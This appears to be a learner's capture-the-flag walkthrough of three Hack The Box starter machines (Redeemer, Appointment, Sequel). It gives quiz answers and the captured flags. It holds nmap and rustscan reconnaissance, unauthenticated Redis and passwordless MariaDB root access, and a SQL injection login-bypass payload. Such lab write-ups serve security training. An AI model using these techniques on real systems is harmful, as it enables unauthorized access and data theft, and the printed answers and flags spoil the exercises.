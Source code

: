 - Recon'
 - rustscan -a 10.129.175.13  --range 1009-65535 [link](https://github.com/RustScan/RustScan/wiki/Usage) 
 - redis is no-memory Database type
 - Which flag is used with the Redis command-line utility to specify the hostname? (-h)
 - Once connected to a Redis server, which command is used to obtain the information and statistics about the Redis server? (`info`)
 - What is the version of the Redis server being used on the target machine? (`nmap -sC -sV -p 6379 $IP`)
 - Which command is used to select the desired database in Redis? (`select` )
 - How many keys are present inside the database with index 0? (`4`) how ? : 
 
 ```bash
 #Install redis
 
curl -fsSL https://packages.redis.io/gpg | sudo gpg --dearmor -o /usr/share/keyrings/redis-archive-keyring.gpg

echo "deb [signed-by=/usr/share/keyrings/redis-archive-keyring.gpg] https://packages.redis.io/deb $(lsb_release -cs) main" | sudo tee /etc/apt/sources.list.d/redis.list

sudo apt-get update
sudo apt-get install redis

#use redis cli 
redis-cli -h $IP -p 6379 
10.129.175.13:6379> SELECT 0
OK
10.129.175.13:6379> DBSIZE
(integer) 4
(2.13s)
10.129.175.13:6379>
```  
- Which command is used to obtain all the keys in a database? (`keys *`)
- Submit root flag 
 ```bash
10.129.175.13:6379> keys *
1) "stor"
2) "numb"
3) "flag"
4) "temp"
10.129.175.13:6379> keys flag
1) "flag"
10.129.175.13:6379> get flag
"03e1d2b376c37ab3f5319922053953eb"
10.129.175.13:6379> 

```

Redeemer Finish 
Also **Tier 0** Free machines finish
## -------------------------------------------------------

### Tier 1 Free machines

## Appointment (Very Easy)

- What does the acronym SQL stand for? (`Structured Query Language`)
- What is one of the most common type of SQL vulnerabilities? (`sql injection`)
- What is the 2021 OWASP Top 10 classification for this vulnerability? (**[A03:2021-Injection)
 - What does Nmap report as the service and version that are running on port 80 of the target? : (`Apache httpd 2.4.38 ((Debian))`) 
    ```bash
    nmap -sC -sV -p 80 10.129.121.152 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-14 16:03 SAST
Nmap scan report for 10.129.121.152
Host is up (0.10s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Login
|_http-server-header: Apache/2.4.38 (Debian)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.77 seconds
```

- What is the standard port used for the HTTPS protocol? (`443`)
- What is a folder called in web-application terminology? (`directory`)
- What is the HTTP response code is given for 'Not Found' errors? (`404`)
- Gobuster is one tool used to brute force directories on a webserver. What switch do we use with Gobuster to specify we're looking to discover directories, and not subdomains?(`dir`)
- What single character can be used to comment out the rest of a line in MySQL?(`#`)
- If user input is not handled carefully, it could be interpreted as a comment. Use a comment to login as admin without knowing the password. What is the first word on the webpage returned? (`congratulations`) - > ```
admin
1' or 1=1;#
[link](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md#mysql-error-based) 
- Submit root flag : previous answer





## --------------------------------------------------------
### Tier 1 Free machines
## Sequel (Very Easy)

- During our scan, which port do we find serving MySQL? (`3306`)
 ```bash
 nmap -sC -sV 10.129.8.9 
```
- What community-developed MySQL version is the target running? (`MariaDB`)
- When using the MySQL command line client, what switch do we need to use in order to specify a login username?(`u`)
 Ex : `mariadb -h 166.78.144.191 -u username -ppassword database_name` 
- Which username allows us to log into this MariaDB instance without providing a password? (`root`)
- In SQL, what symbol can we use to specify within the query that we want to display everything inside a table? (`*`)
- In SQL, what symbol do we need to end each query with? (`;`)
- There are three databases in this MySQL instance that are common across all MySQL instances. What is the name of the fourth that's unique to this host?(`htb`)
```bash
mariadb -h 10.129.8.9 -u root -p 
Enter password: #Blank password here
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 74
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| htb                |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0.106 sec)

```

- Submit root flag : 
 ```bash
 USE htb;
 MariaDB [htb]> select * from config;
+----+-----------------------+----------------------------------+
| id | name                  | value                            |
+----+-----------------------+----------------------------------+
|  1 | timeout               | 60s                              |
|  2 | security              | default                          |
|  3 | auto_logon            | false                            |
|  4 | max_size              | 2M                               |
|  5 | flag                  | 7b4bec00d1a39e3dd4e021ec3d915da8 |
|  6 | enable_uploads        | false                            |
|  7 | authentication_method | radius                           |
+----+-----------------------+----------------------------------+

```
